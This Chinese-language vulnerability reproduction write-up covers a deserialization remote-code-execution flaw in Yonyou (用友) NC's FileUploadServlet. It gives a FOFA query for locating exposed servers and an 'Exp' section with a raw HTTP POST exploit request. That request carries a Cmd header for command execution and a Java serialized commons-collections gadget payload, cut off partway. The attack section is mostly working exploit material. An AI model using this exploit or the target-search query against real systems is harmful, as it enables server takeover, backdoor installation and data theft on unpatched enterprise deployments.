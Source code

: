 
# 用友 NC FileUploadServlet 反序列化 RCE 漏洞复现

### 0x01 产品简介

 用友 NC 是用友网络科技股份有限公司开发的一款大型企业数字化平台。

### 0x02 漏洞概述

  用友 NC nc.file.pub.imple.FileUploadServlet 反序列化漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"

![](assets/1701746394-d4c1eebb0d893707673ebb2c121f98b9.png)

### 0x04 漏洞复现

Exp 

```cobol
POST /servlet/~baseapp/nc.file.pub.imple.FileUploadServlet HTTP/1.1
Host: {{Hostname}}
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x01?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.collections.keyvalue.TiedMapEntry\x8a\xad\xd2\x9b9\xc1\x1f\xdb\x02\x00\x0
```
